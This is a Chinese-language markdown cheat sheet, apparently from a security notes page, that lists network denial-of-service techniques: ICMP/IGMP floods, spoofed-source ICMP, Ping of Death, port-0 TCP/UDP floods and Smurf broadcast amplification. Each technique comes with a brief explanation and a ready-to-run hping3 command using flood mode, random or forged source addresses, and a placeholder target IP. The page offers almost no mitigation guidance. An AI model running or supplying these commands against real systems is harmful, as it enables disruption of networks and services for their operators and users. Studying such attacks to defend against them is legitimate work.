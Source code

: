 ::: details Large Ping

ICMP（Internet Control Message Protocol–Internet 控制消息协议）和 IGMP（Internet Group Management Protocol–Internet 组管理协议）是网络层的协议类似于 UDP。ICMP 递送状态消息，错误报告，回答某些请求，报告路由信息，并且常用于测试网络的连通性和排查问题。IGMP 是 IP 网络上的系统和相邻路由用来建立和维护多播组成员关系的协议。

ICMP and IGMP Floods 类似于 UDP 不需要任何漏洞，只需要发送大量的 ICMP 或 IGMP 数据包，在处理每一个数据包的时候资源消耗殆尽导致拒绝服务。

```bash
hping3 -d 501 --flood --rand-source -1 -p PORT <目标IP>
```

:::

::: details 固定源 ICMP 攻击

伪装 IP 攻击

```bash
hping3 -1 -a 伪装IP 目标IP
```

:::

::: details Ping of Death

Ping of death 是一种拒绝服务攻击，方法是由攻击者故意发送大于 65536 比特的 ip 数据包给对方。Ping of death 攻击利用了 Internet 控制消息协议 (ICMP) 和最大传输单元 (MTU) 的特点，Ping 命令发送 ICMP 回应请求 (ICMP Echo-Request) 并记录收到 ICMP 回应回复 (ICMP Echo-Reply)。MTU 定义了具有不同媒体类型的网络架构的单元最大传输量。

如果数据包大小大于MTU，数据包将被拆分，并在目的主机重新组合。当数据包被分解时，数据包会涵盖一个“偏移”值，这个偏移值用于在目的主机重组数据。攻击者可以将最后的数据片段替换为合理的偏移值和较大的数据包，这样将会超过ICMP回应请求数据部分的数量，如果进行重组，目的计算机将会重新启动或者崩溃。

```bash
hping3 -1 -d 70000 -c 1 <目标ip>
```

:::

::: details 源端口为 0**

访问 UDP/TCP 的 0 端口导致该事件的产生，这是一个不正常的访问，暗示着非授权的网络访问或探测活动。

```bash
hping3 -c 10000 -d 120 --tcp -w 64 -p 0 --flood --rand-source +host <目标IP>
    
hping3 -c 10000 -d 120 --udp -w 64 -p 0 --flood --rand-source +host <目标IP>
```

:::

::: details ICMP-Smurf attack

ICMP/SMURF 攻击利用的是网络广播的原理来发送大量的连接, 而包的源地址就是要攻击的机器本身的地址; 因而所有接收到此包的主机都将给包的源地址发送一个 ICMP 回复包。

```bash
hping3 -1 -a 192.168.0.1 192.168.0.255

hping3 -1 -a 目标ip 目标服务器广播地址
```

:::
